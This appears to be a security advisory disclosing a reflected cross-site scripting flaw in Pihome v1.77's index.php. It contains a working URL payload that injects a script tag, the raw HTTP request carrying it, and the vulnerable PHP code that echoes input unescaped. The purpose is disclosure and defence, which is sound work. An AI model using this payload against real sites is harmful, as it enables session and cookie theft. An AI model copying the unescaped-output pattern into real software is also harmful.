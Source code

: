 # Cross Site Scripting in Pihome v1.77 in index.php

### Title: Cross Site Scripting in Pihome v1.77 in index.php
### Affected Component: /index.php
### CWE: CWE-79 (Cross Site Scripting)
### CVE: [CVE-2025-1213](https://www.cve.org/CVERecord?id=CVE-2025-1213)
### VulDB: [VDB-295172](https://vuldb.com/?id.295172)


### Vendor homepage:
[https://github.com/pihome-shc/pihome](https://github.com/pihome-shc/pihome/)


### Setup for getting the PoC to Work
Setup the project and then visit the following url `<url>/index.php/p6eum"><script>alert(1)</script>`



### Impact:
The web application is vulnerable to XSS attacks within the index.php. Attackers can exploit this vulnerability by injecting malicious payload in the url and steal cookies if the cookie flags are not set properly. 


The code below shows (index.php from line 344) that the user input is put into the html source without sanitation. This is a high risk vulnerability.

```php
	echo '<div class="panel-body">
						<div class="row">
                        				<form method="post" action="'.$_SERVER['PHP_SELF'].'" role="form">';
								include("notice.php");
								echo '<br>
                            					<fieldset>
                                					<div class="form-group">';
										if ($no_ap == 0 || $wifi_connected == 1 || $eth_connected == 1 || $ap_mode == 1) {
											echo '<input class="form-control" placeholder="User Name" name="username" type="input" value="';
											if(isset($_COOKIE["user_login"])) { echo $_COOKIE["user_login"]; }
											echo '" autofocus>';
```

The developer should escape all input properly. This is a repository wide issue.


### Proof of Concept (POC):
To exploit the XSS vulnerability, attackers craft a payload containing malicious input and inject it into the url. For example, 
submitting the payload `<url>/index.php/p6eum"><script>alert(1)</script>` triggers the alert box. This demonstrates the successful execution of the injection within the application.

#### HTTP Request:
```
GET /index.php/%22%3E%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
Host: 127.0.0.1:8888
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=1b1fc7ea89369750d8276209e0a595e5
Connection: keep-alive


```

### Proof with Screenshot:
![image](./assets/pihome-xss-index.png)


## **Credits**
> [Jelle Janssens](https://github.com/janssensjelle)